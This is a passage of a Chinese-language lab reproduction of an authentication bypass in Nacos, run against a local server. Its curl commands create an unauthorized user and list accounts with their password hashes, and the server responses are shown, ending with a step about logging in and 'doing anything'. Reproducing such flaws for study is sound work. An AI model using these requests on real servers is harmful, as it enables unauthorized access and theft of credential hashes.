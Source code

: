   2. 添加新用户

```
curl -XPOST 'http://127.0.0.1:8848/nacos/v1/auth/users?username=test&password=test'
```

可以看到，绕过了鉴权，添加了新用户

```
{
    "code":200,
    "message":"create user ok!",
    "data":null
}
```

3. 再次查看用户列表

```
curl XGET 'http://127.0.0.1:8848/nacos/v1/auth/users?pageNo=1&pageSize=9'
```

可以看到，返回的用户列表数据中，多了一个我们通过绕过鉴权创建的新用户

```
{
    "totalCount": 2,
    "pageNumber": 1,
    "pagesAvailable": 1,
    "pageItems": [
        {
            "username": "nacos",
            "password": "$2a$10$EuWPZHzz32dJN7jexM34MOeYirDdFAZm2kuWj7VEOJhhZkDrxfvUu"
        },
        {
            "username": "test",
            "password": "$2a$10$5Z1Kbm99AbBFN7y8Dd3.V.UGmeJX8nWKG47aPXXMuupC7kLe8lKIu"
        }
    ]
}
```

4. 访问首页`http://127.0.0.1:8848/nacos/`，登录新账号，可以做任何事情
